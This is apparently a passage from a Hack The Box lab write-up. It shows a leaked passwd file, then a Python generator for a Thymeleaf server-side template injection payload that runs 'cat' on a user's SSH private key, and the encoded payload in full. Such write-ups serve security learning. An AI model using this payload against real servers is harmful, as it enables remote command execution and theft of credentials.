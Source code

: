 ```java
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
woodenk:x:1000:1000:,,,:/home/woodenk:/bin/bash
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
</h2>*/
```

There is only one user:

```shell
grep -vE 'nologin|false' sources/passwd
# root:x:0:0:root:/root:/bin/bash
# sync:x:4:65534:sync:/bin:/bin/sync
# woodenk:x:1000:1000:,,,:/home/woodenk:/bin/bash
```

Leaking the SSH key failed:

```python
command = b'cat /home/woodenk/.ssh/id_rsa'
payload_template = 'T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString({}){}).getInputStream())'
encoding_template = '.concat(T(java.lang.Character).toString({}))'
print('*{' + payload_template.format(
    command[0],
    ''.join([encoding_template.format(b) for b in command[1:]])) + '}')
# *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```


[acunetix]: https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
[author-profile]: https://app.hackthebox.com/users/25507
[cve-3560-poc]: https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
[hacktricks-ssti]: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java
[hacktricks-xxe]: https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file
[panda-stats]: images/panda-stats.png
[panga-search]: images/panga-search.png
[spring-boot-template-engine]: https://www.baeldung.com/spring-template-engines#thymeleaf